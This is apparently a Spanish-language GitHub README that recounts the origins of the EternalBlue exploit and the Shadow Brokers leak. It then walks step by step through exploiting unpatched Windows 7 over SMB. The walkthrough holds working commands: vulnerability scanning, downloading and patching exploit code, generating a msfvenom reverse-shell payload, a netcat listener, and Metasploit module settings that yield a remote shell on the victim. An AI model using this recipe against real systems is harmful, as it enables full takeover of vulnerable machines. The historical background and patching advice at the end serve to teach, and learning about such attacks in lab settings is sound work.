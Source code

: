 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Explotar+Windows+7+con+exploit+EternalBlue"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD y ORIGEN de ETERNALBLUE</ins></h3>

EternalBlue es un exploit desarrollado por la NSA (Agencia de Seguridad Nacional de los EE.UU) y filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, el grupo se filtro en la base de datos de la agencia y desde allí accedieron a todo tipo de herramientas y exploits que luego publicaron en venta. Luego de que el exploit fuera liberado, los ciberdelincuentes no tardaron en aprovecharse para atacar hospitales, empresas y gobiernos con dicha vulnerabilidad; fue utilizado en el ataque mundial de ransomware con <a href="https://es.wikipedia.org/wiki/WannaCry">WannaCry</a>. Los ataques aumentaron desconsideradamente y para la NSA no le quedo otra opción que reportar la vulnerabilidad a Microsoft y que esté lance un parche para corregirla.

EternalBlue se aprovecha de una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, cuyo protocolo permite compartir archivos e impresoras conectadas a la red. Estaba presente en todos los sistemas operativos Windows: Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold. Aunque Microsoft libero una actualización de seguridad  el 14 de marzo de 2017 que resolvió el problema a través del parche <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">MS17-010</a>, seguidamente se extendió a versiones antiguas de Windows (Windows XP, Windows 8 y Windows Server 2003).

</br>

<h4 align="center">Grupo The Shadow Brokers</h4>

El grupo de Shadow Brokers apareció por primera vez en el verano del 2016. Fue reconocido por sus publicaciones en donde filtraban herramientas de hacking, exploits y vulnerabilidades zero-day del "Equation Group", una rama de la NSA clasificada como una amenaza persistente avanzada. Los exploits estaban dirigidos a firewalls empresariales, software, productos de Windows, smart TVs, smartphones y otros dispositivos para recopilar información. Las publicaciones de Shadow Brokers indicaban que tenían programas de espionaje dirigidos a productos de Juniper, Fortigate, Cisco y Topsec, así como también el código del gusano informático Stuxnet (utilizado para atacar las instalaciones de uranio de Irán).

El grupo de hackers tenía una web bajo ZeroNet donde subastaban los exploits directamente y de uno en uno, los precios iban desde 1 y 100 bitcoins pero la sala de subasta no tenia suficiente actividad, por lo que nadie quería comprarlos en su momento. Los intentos de venta han sido por medio de comunicados en inglés, y que según estos, tienen faltas de ortografía, lo que deduce que no son estadounidenses y que trabajan para un gobierno en específico. Hasta la fecha su cuenta de <a href="https://twitter.com/shadowbrokerss/status/879955121878204416">Twitter</a> sigue existiendo desde agosto de 2016 pero sin señales de actividad desde su última publicación en donde ofrecen servicios individuales VIPs para hackear una organización, obtener información confidencial o comprar herramientas via email.

<p align="center">
  <img src="https://www.muyseguridad.net/wp-content/uploads/2017/04/Shadow-Brokers.jpg">
</p>

##### WEBGRAFÍA:

- https://es.wikipedia.org/wiki/EternalBlue

- https://en.wikipedia.org/wiki/The_Shadow_Brokers

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Manual

Con el script (*smb-vuln-ms17-010*) de Nmap comprobamos si el sistema es o no vulnerable a EternalBlue:
```
sudo nmap --script smb-vuln-ms17-010 <TARGET>
```
![1](https://user-images.githubusercontent.com/75953873/187816900-9f93b05a-4a26-4c31-8688-8c01d989c8aa.png)

Efectivamente, el sistema es vulnerable a EternalBlue. Ahora faltaría bajar localizar el exploit y descargarlo con Searchsploit:
```
searchsploit eternalblue
```
![2](https://user-images.githubusercontent.com/75953873/187817250-1095f790-fbd9-4e0f-8a20-d4d2e71a5f87.png)

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 = **42315**
```
searchsploit -m 42315
```
El exploit esta programado con Python3 y es necesario el módulo mysmb para hecharlo andar, así que ejecutamos el siguiente comando para descargarlo:
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Si ejecutamos el código podemos observar que no presenta errores de módulos:

![3](https://user-images.githubusercontent.com/75953873/187817618-3481722e-5597-494b-bbc6-1921667df305.png)

Las tuberías con nombre (named pipes) son una forma de que los procesos en ejecucción se comuniquen entre sí con muy poca sobrecarga, generalmente aparecen como nombre de archivos para que otros procesos se adjunten. Metasploit tiene un escáner que encontrará cualquier tubería con nombre de un host, pero yo prefiero utilizar un script de forma manual: https://github.com/zzwlpx/ms17010-nsa-EternalBlue/blob/master/checker.py

Después de descargar y ejecutar el código, lo más normal es que le salte el siguiente error:

![5](https://user-images.githubusercontent.com/75953873/188349074-f68ddd3e-7bfa-4148-885e-9dce04ca2ea3.png)

Esto ocurre porque la función `str` se utiliza para devolver una cadena, no para imprimir una. Para solucionarlo debemos editar el código `mysmb.py`, hay que sustituir las líneas 229 y 230 por:
```python
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req
```
![6](https://user-images.githubusercontent.com/75953873/188349925-e476d8c8-7cef-4932-b599-1a33e810e63e.png)

Si ejecutamos el checker ya funciona correctamente:

![4](https://user-images.githubusercontent.com/75953873/188350245-47a40103-1139-4f99-876a-8abbde4c9e0a.png)

Named pipes aceptados: browser, netlogon, lsarpc, samr.

Posiblemente les lance el siguiente error de autenticación de usuario:

![7](https://user-images.githubusercontent.com/75953873/189492357-69c6b1dd-33fa-4555-930c-5ad4b2ae8109.png)

Así que probemos con otro exploit más actualizado: https://github.com/3ndG4me/AutoBlue-MS17-010

![8](https://user-images.githubusercontent.com/75953873/189492436-04e8382c-bcbb-46ad-b73f-f55629b52f5e.png)

Hay varias versiones del exploit, el que nos interesa es `eternalblue_exploit7.py`. Seguidamente, generamos una shellcode con msfvenom para escuchar las conexiones de la máquina:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP-LOCAL> LPORT=<PUERTO> -f exe -o <DIRECTORIO/NOMBRE>
```
![9](https://user-images.githubusercontent.com/75953873/189492832-47a6b221-db9c-4ee3-995f-3b14251ee22e.png)

Después ejecutamos Netcat y ponemos a escucha el puerto del shellcode:
```
nc -lvnp
```

Finalmente ejecutamos el exploit 7 con la ruta del shellcode generado:
```
python3 eternalblue_exploit7.py <IP> <SHELLCODE>
```
![10](https://user-images.githubusercontent.com/75953873/189492954-a904b963-6491-407c-99cd-7416ad9214f1.png)

En la terminal de Netcat se abrirá una shell remota en donde podemos interactuar con la máquina víctima:

![11](https://user-images.githubusercontent.com/75953873/189493003-dd72ab81-16e2-431b-9178-c7127a5ffec8.png)

Es **IMPORTANTE** aclarar que eternalblue no siempre funciona a la primera, es por eso que hay que reintentar nuevamente hasta que la conexión se establezca.

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Automatizado con Metasploit

Si bien es cierto que hacerlo manual lleva más tiempo, es aquí donde entra Metasploit para facilítarnos la vida. Personalmente prefiero llevar el ataque de forma manual, pero tampoco quiero olvidarme de los fans de Metasploit; que en sí no es malo utilizarlo, sino hacerlo sin tener idea de que ocurre por detrás del proceso. Para comenzar con el procedimiento, podemos verificar si la máquina es vulnerable a eternalblue con el scanner ya incorporado del framework:
```
msfconsole
search eternalblue scanner
use auxiliary/scanner/smb/smb_ms17_010  |  use 0
set RHOSTS <IP>
```
![12](https://user-images.githubusercontent.com/75953873/189494844-dfe29158-4686-471f-b2b4-684974ef84d9.png)

El host es vulnerable:

![13](https://user-images.githubusercontent.com/75953873/189494874-d7e1d03c-aaeb-41de-93ee-ea52e7c0fbf8.png)

Por último, seleccionamos el exploit `ms17_010_eternalblue` y configuramos el RHOSTS nuevamente:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
```
![14](https://user-images.githubusercontent.com/75953873/189494935-f8034937-e535-4bd7-bf98-e62d28c85075.png)

Metasploit se encargará de ejecutar el exploit las veces que sea necesario para obtener una shell remota, como mencione más arriba, eternalblue no siempre funciona a la primera (el host anterior fue reemplazado).

![15](https://user-images.githubusercontent.com/75953873/189495269-8279bc78-7a70-446f-ba9e-b8ed896a5411.png)

<h1 align="center"></h1>

</br>

La vulnerabilidad es capaz de otorgar el control completo sobre una máquina por medio de ejecucción de código arbitrario a nivel administrador sin requerir la interacción del usuario. Actualmente esta vulnerabilidad ha sido parchada, pero no significa que no debamos estar alerta ya que aún hay empresas que siguen utilizando versiones antiguas de Windows que no tienen soporte (Ej. Windows 7), así como también para uso doméstico en computadoras antiguas. Se recomienda siempre mantener el equipo actualizado, y si es posible, tener un segundo antivirus y no abrir correos desconocidos o "spam" ya que en muchas ocasiones los atacantes incrustan el exploit en un software legítimo para que la víctima lo descargue y ejecute en su máquina.

</br>

<h1 align="center"></h1>

<h3 align="center"><ins>ADVERTENCIA<ins></h3>

<h4 align="center">Esto es con fines de aprendizaje, no nos hacemos responsables ni el fundador, ni el creador del tema del mal uso de esta herramienta u información.</h4>



#### ~R3LI4NT~
